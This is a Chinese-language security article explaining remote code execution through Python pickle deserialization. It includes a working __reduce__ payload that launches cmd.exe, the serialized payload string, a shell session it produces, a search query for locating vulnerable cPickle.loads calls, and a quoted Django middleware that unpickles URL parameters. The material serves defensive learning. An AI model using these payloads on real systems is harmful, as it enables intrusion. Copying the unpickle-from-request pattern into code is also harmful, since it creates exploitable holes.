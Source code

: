 # Python Pickle反序列化带来的安全问题

**0x00 前言**

数据序列化，这是个很常见的应用场景，通常被广泛应用在数据结构网络传输，session存储，cache存储，或者配置文件上传，参数接收等接口处。主要作用是为了能够让数据在存储或者传输的时候能够单单只用string的类型去表述相对复杂的数据结构，方便应用所见即所得，直接进行数据交流处理。

然而安全问题也常常出现在这里。随手点点就有，PHP的unserialize/__wakeup()漏洞、struts的ognl、xml解析的一系列漏洞、当然，还有最近Ruby on Rails的xml/yaml。

而这里的问题，不发生则已，一发生，则通常就是个天大的0day：远程代码执行。

原因为何？和我们的第一段所说的应用场景有关。语言需要从string去解析出自己的语言数据结构，必然要去从这个string中做固定格式的解析，然后在内部把解析出来的结果去eval一下；或者，为了保证解析出来的内容为被序列化时候的Object状态，要调用一下状态保存的函数__wakeup。

无论哪种，都是可能被有心人利用，从而接管流程，让框架让语言执行到他们的代码的。往深入了讲，往“道”的方向提升，这种模式是计算机从诞生之日就存在的原罪之一：**“数据和操作指令保存在一起不加区分，从而很容易被误解。”**

仔细想想，缓冲区溢出（数据覆盖了内存的其他区域被当作操作指令执行），SQL注入（数据被当作控制语句的一部分被执行），XSS（同sql注入）。哪一种大的安全问题不是这个原罪造成的？

**0x01 细解**

好了，扯了这么多，跑题的严重，还是言归正传吧。

我们知道各大语言都有其序列化数据的方式，Python当然也有，官方库里提供了一个叫做pickle/cPickle的库，这两个库的作用和使用方法都是一致的，只是一个用纯py实现，另一个用c实现而已。使用起来也很简单，基本和PHP的serialize/unserialize方法一样：

```
import cPickle 

data = "test" 
packed = cPickle.dumps(data) # 序列化 
data = cPickle.loads(packed) # 反序列化 

>>> packed 
"S'test'\np1\n."

```

同样pickle可以序列化python的任何数据结构，包括一个类，一个对象：

```
>>> class A(object): 
...     a = 1 
...     b = 2 
...     def run(self): 
...         print self.a, self.b 
... 
>>> cPickle.dumps(A()) 
'ccopy_reg\n_reconstructor\np1\n(c__main__\nA\np2\nc__builtin__\nobject\np3\nNtRp4\n.'

```

这里可以看到，连code都被序列化进去了。如果我们这个run函数是可以被自动执行的，那就可以形成一个很完美的远程执行。

如何让run函数被自动执行呢？类似于php的wakeup魔术方法，python也有其自己的方法，例如__reduce，可以在被反序列化的时候执行。具体内容请参考Python的官方库文档。而且并不止这一个函数。

我们利用**reduce**做一个测试：

```
>>> class A(object): 
...     a = 1 
...     b = 2 
...     def __reduce__(self): 
...         return (subprocess.Popen, (('cmd.exe',),)) 
... 
>>> cPickle.dumps(A()) 
"csubprocess\nPopen\np1\n((S'cmd.exe'\np2\ntp3\ntp4\nRp5\n."

```

然后新开一个py的命令行，模拟是接收方：

```
>>> cPickle.loads("csubprocess\nPopen\np1\n((S'cmd.exe'\np2\ntp3\ntp4\nRp5\n.") 
<subprocess.Popen object at 0x00BB8DD0> 
>>> Microsoft Windows XP [版本 5.1.2600] 
(C) 版权所有 1985-2001 Microsoft Corp. 

C:\Documents and Settings\testuser>exit
Use exit() or Ctrl-Z plus Return to exit 
>>>

```

bingo，很完美的一个shell，不是么：）

只要你可以控制序列化中的内容，就可以让接收方去执行你提供的代码。

**0x02 实例**

那么现实中是否有类似的代码呢？[请灵活使用google](https://www.google.com.hk/#hl=zh-CN&q=cPickle.loads(+site:github.com&oq=cPickle.loads(+site:github.com&fp=16ca8e5436e5cdb6)

我这里随便搜了一个很有代表性的代码：[http://djangosnippets.org/snippets/2126/](http://djangosnippets.org/snippets/2126/)

```
def unpickle_stats(stats): 
    """Unpickle a pstats.Stats object""" 
    stats = cPickle.loads(stats) **#注意这里** 
    stats.stream = True 
return stats

def process_request(self, request): 
        """  Setup the profiler for a profiling run and clear the SQL query log. 

  If this is a resort of an existing profiling run, just return  the resorted list.  """ 
        def unpickle(params): 
            stats = unpickle_stats(b64decode(params.get('stats', ''))) #这里直接从url参数中获取了 
            queries = cPickle.loads(b64decode(params.get('queries', ''))) #这里也是 
            return stats, queries 

        if request.method != 'GET' and \ 
           not (request.META.get('HTTP_CONTENT_TYPE', 
                                 request.META.get('CONTENT_TYPE', '')) in 
                ['multipart/form-data', 'application/x-www-form-urlencoded']): 
            return 
        if (request.REQUEST.get('profile', False) and 
            (settings.DEBUG == True or request.user.is_staff)): 
            request.statsfile = tempfile.NamedTemporaryFile() 
            params = request.REQUEST 
            if (params.get('show_stats', False) 
                and params.get('show_queries', '1') == '1'): 
                # Instantly re-sort the existing stats data 
                stats, queries = unpickle(params) # 这里调用了

```

这是某个开发者写的django middleware的代码，很easy被利用，不是么?

另外我在ibm上也看到有类似的教程使用了同样的代码，也可以被利用：[http://www.ibm.com/developerworks/cn/education/grid/gr-pyth3/section4.html](http://www.ibm.com/developerworks/cn/education/grid/gr-pyth3/section4.html)